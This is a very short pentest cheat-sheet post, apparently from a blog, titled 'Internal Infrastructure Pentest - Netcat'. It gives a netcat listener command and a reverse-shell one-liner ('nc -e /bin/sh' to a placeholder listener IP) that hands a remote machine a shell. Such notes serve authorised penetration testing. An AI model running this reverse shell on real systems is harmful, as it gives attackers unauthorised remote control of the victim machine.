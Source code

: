 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Netcat"
date:   2019-06-23 13:52:10 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
tags:
  - Netcat
  - Windows Security
  - Active Directory Hacking
---
```


- Setup a listener:
  - nc -lvp 4444
  
- Connect using netcat reverse shell:
  - nc -e /bin/sh <listener_IP> 4444
  
 
